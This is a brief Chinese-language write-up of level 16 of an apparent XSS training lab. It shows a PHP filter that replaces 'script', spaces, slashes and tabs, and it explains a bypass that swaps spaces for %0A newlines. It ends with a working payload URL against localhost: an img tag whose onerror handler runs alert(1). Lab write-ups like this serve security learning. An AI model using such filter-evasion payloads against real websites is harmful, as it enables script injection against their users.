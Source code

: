 **level16**  
看下面源码

```
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
```

还是过滤类型的，空格和srcipt都没了，主要是空格，html里面换行符可以替换掉空格，%0A

`http://localhost:51142/level16.php?keyword=<img%0Asrc=1%0Aonerror="alert(1)">`